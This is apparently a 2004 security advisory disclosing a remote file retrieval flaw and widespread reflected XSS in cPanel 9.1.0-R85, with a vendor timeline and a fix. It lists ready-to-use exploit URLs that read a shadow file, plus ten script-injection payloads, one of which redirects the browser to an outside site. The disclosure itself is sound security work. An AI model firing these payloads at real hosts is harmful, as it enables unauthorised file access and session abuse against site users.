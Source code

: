 ## Product:
cpanel.net cPanel Web Host Control Panel

## Released:
03/13/2004

# Remote File Include
## Description:
cPanel 9.1.0-R85 is vulnerable to a remote file retrieval vulnerability.

## Systems Affected:
cPanel 9.1.0-R85

## Technical Description:
Two cPanel programs allow remote users to specify arbitrary files to retrieve from the server. Risk is mitigated because users can only retrieve files from within their user directory. This poses a risk if the administrator has removed the "File Manager" module (note: disabling "File Manager" in WHM only removes the icon from the cPanel front page, not from the webserver entirely), as the user may be able to access files they would otherwise not have the ability to read.

These URLs will retrieve the shadow file from the user's /etc directory (not the system's /etc directory):

- http://[victim]/frontend/x/cpanelpro/editmsg.html?emaildir=/etc&form=shadow
- http://[victim]/frontend/x2/err/erredit.html?dir=/etc&file=shadow

# XSS
## Description:
cPanel 9.1.0-R85 is vulnerable to Cross Site Scripting (XSS) in almost every field which is returned to the browser. This could allow a user to create a specially crafted URL that would execute arbitrary code in a user's browser within the trust relationship between the browser and the server, leading to a loss of integrity.

cPanel supports filtering of HTML and scripts in input variables, but according to cPanel was not enabled in order to support third-party themes. In the interest of properly securing cPanel, the developers have decided to enable HTML filtering as of the first release in the April 1, 2004 EDGE release.

## Technical Description:
Multiple variables in multiple cPanel programs do not filter user supplied input. This could allow an attacker to perform Cross Site Scripting (XSS) attacks against users of the cPanel system.

To check cPanel for CSS, simply access the following example URLs in a browser:

- http://[victim]/frontend/x/cpanelpro/ignorelist.html?account="><script>alert('Vulnerable')</script>
- http://[victim]/frontend/x/cpanelpro/showlog.html?account=<script>alert('Vulnerable')</script>
- http://[victim]/frontend/x/sql/repairdb.html?db=<script>alert('Vulnerable')</script>
- http://[victim]/frontend/x/ftp/doaddftp.html?login="><script>alert('Vulnerable')</script>
- http://[victim]/frontend/x/cpanelpro/editmsg.html?account="><script>alert('Vulnerable')</script>
- http://[victim]/frontend/x/testfile.html?email=<script>alert('Vulnerable')</script>
- http://[victim]/frontend/x2/err/erredit.html?dir=public_html/&file=<script>alert('Vulnerable')</script>
- http://[victim]/frontend/x2/net/dnslook.html?dns=</pre><script>window.location='http://www.cirt.net/'</script>
- http://[victim]/frontend/x2/denyip/del.html?ip=<script>alert('Vulnerable')</script>
- http://[victim]/frontend/x2/htaccess/index.html?dir=<script>alert('Vulnerable')</script>

## Fix/Workaround:
Upgrade to the April 1, 2004 EDGE release or newer.

## Vendor Status:
cPanel was contacted on 3/13/2004. Vendor responded on 3/16/2004 that this was not an issue since "File Manager" cannot be disabled.

## References:
- OSVDB-4216	cPanel erredit.html Arbitrary File Access
- OSVDB-4217	cPanel editmsg.html Arbitrary File Access
